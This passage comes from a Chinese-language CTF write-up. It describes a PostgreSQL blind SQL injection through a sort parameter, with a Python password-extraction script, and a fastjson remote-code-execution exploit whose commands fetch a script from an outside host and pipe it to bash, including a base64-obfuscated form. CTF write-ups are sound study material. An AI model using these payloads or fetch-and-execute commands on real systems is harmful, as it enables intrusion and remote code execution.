 得到flag表明: `vhEFfFlLlLaAAaaggIiIIsSSHeReEE`

## babyweb

search的时候有个sort参数，但是发现sort=current_database()的时候结果正常，然后sort=abc()的时候404，猜测是Postgresql，进一步使用其它函数进行测试，发现sort=pg_ls_dir('/proc')的时候会返回很多结果，sort=pg_ls_dir('/proca')这样就404了，因此可以配合concat和substring进行盲注，例如sort=pg_ls_dir(concat('/proc',substring('a',1,ascii(substring('a',1,1))-97)))这样会返回结果，但是97换成别的就会404，注出密码的payload如下：

```
import requests

dic = list("abcdefghijklmnopqrstuvwxyz0123456789_!;~.")
ans = ''
for pos in range(1,50):
    for c in dic:
        c = ord(c)
        data = {'search':'admin','sort':"pg_ls_dir(concat('/proc',substring('a',1,ascii(substring(password,%d,1))-%d))),id" % (pos,c)}
        #print(data)
        resp = requests.post("http://47.95.235.14:9999/search",data=data).text
        if len(resp)>10000:
            ans += chr(c)
            print(ans)
            break
```

RESTFULAPI接口，结合控制台提示restful api provided by fastjson.，是fastjson的漏洞，网上找exp打就行了，不过Runtime.getRuntime().exec()有的符号不能用（例如|和>）

```
curl zzm.cat:8080/1.txt|bash
```

1.txt:

```
bash -c {echo,Y3VybCB6em0uY2F0OjgwODAvMS50eHR8YmFzaA==}|{base64,-d}|{bash,-i}
```

exp:

![](/assets/bctf/20181129182028-6495c7d6-f3c0-1.png)

编译成字节码然后base64:

![](/assets/bctf/20181129182132-8ada3f62-f3c0-1.png)

payload:

![](/assets/bctf/20181129182202-9ca207de-f3c0-1.png)

相同类型题目: 护网杯easy_web:

![](/assets/bctf/20181014171439-941dc498-cf91-1.png)
